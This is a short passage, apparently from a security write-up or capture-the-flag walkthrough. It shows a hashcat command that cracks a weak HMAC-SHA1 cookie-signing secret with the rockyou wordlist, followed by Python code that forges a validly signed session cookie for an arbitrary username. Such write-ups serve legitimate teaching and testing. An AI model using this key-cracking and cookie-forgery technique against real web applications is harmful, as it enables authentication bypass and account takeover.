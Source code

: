 <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ hashcat -m 150 hash.txt /list/rockyou.txt
</strong>...
78e46c59578c0ec18644da7e40afac6f31e9f1ab:session=eyJ1c2VybmFtZSI6ICJqMHIxYW4ifQ:secret
</code></pre>

Now that the secret key is found, we can forge any cookie payload with a valid signature:

```python
import hmac
from base64 import urlsafe_b64encode
from hashlib import sha1
import json

def sign(data, key):
    signature = hmac.new(key, data, sha1)
    signature_enc = urlsafe_b64encode(signature.digest()).rstrip(b"=")
    return signature_enc

SECRET = b"secret"
payload = {"username": "j0r1an"}

data = b'session=' + urlsafe_b64encode(json.dumps(payload).encode()).rstrip(b"=")
signature = sign(data, SECRET)

print(data)  # b'session=eyJ1c2VybmFtZSI6ICJqMHIxYW4ifQ'
print(b'session.sig=' + signature)  # b'session.sig=eORsWVeMDsGGRNp-QK-sbzHp8as'
```

